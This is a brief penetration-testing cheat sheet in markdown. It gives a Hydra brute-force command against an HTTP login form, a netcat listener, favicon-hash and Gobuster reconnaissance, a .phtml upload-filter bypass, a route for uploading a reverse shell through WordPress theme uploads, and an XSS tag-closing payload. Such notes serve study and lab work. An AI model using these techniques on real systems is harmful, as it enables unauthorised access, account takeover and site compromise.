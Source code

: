 ## Hydra
  hydra -l username -P passwordlist.txt -s PORT IP http-post-form 'referurl:postbody^user^&^password:Error message'

## Netcat listener
  nc -nlvp PORT
  

## ICO
  * Identify a website framework from its ICO
  * curl ICO | md5sum
  * [OWASP ICO](https://wiki.owasp.org/index.php/OWASP_favicon_database)


## Gobuster
  * gobuster dir -u URL -w Wordlist(seclists/discovery/common is a good list) 

## Uploads
  * .phtml can bypass upload filters if the admin did not implement a proper upload check(Must be a php application)
  * [Wordpress uploads](https://www.hacknos.com/wordpress-shell-upload/)
  * If you have access to a wordpress administrator panel it is possible to upload a reverse shell via upload themes. The url schema is:
  * http(s)://IP/wp-content/uploads/year/day/filename

## XSS
* When testing payloads for XSS you can close the tag Hello <fakeTag>Name Goes here</fakeTag>
* <fakeTag> </fakeTag>insert XSS payload. Example payload = </fakeTag>script alert('XSS?');script

